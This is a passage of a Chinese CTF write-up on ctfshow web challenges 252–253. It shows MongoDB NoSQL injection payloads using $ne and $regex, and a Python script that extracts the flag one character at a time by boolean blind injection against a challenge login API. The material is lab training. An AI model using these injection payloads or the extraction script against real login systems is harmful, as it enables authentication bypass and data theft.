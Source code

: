 ![251](https://the0n3.top/medias/show-sql/251.png)

## web 252

再用上面payload，没有flag

![252](https://the0n3.top/medias/show-sql/252.png)

使用正则匹配password里的flag

![2521](https://the0n3.top/medias/show-sql/2521.png)

传数组数据`password[$regex]=^ctfshow{`，MangDB的正则模式`$regex`匹配flag的开头

## web 253

拿上一题payload跑，查出数据了

![253](https://the0n3.top/medias/show-sql/253.png)

![2531](https://the0n3.top/medias/show-sql/2531.png)

显示登录成功，但是没有返回flag，根据返回不同，当作布尔盲注题

```python
import requests
string="abcdefghigklmnopqrstuwxyz1230456789{}_-"
flag='{'
url="http://bb485952-cee8-4b38-b2c6-f64c2005c4f3.challenge.ctf.show/api/"
while True:
    for j in string:
        data={
            "username[$ne]":1,
            "password[$regex]":f"ctfshow{flag+j}"
        }
        r=requests.post(url,data=data)
        if "\\u767b\\u9646\\u6210\\u529f" in r.text:
            sign=j
            flag+=j
            print(flag)
        else:
            pass
    if sign=='}':
        break
```

end